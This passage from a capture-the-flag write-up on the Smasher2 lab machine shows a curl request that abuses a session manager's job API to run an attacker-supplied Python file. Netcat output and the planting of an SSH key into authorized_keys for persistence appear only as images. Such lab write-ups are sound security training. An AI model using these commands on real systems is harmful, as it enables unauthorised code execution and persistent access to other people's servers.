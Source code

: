Curl command to execute '**file.py**':
```
curl -H "Content-Type: application/json" -H "Cookie: session=<NEW SESSID HERE>" -d '{"schedule":"python 'file.py'"}' -X POST http://wonderfulsessionmanager.smasher2.htb/api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job
```

Netcat:
![images/22-13.png](/assets/smasher_2/22-13.png)  

Fantastic, it all worked. Lets verify we can grab `user.txt`:  
![images/22-14.png](/assets/smasher_2/22-14.png)  

Onto root.

### Privesc 
As usual I'm going to get ssh access to smasher by making a '**.ssh**'' dir & echoing my '**.pub**' key into '**authorized_keys**':  
![images/34-1.png](/assets/smasher_2/34-1.png)
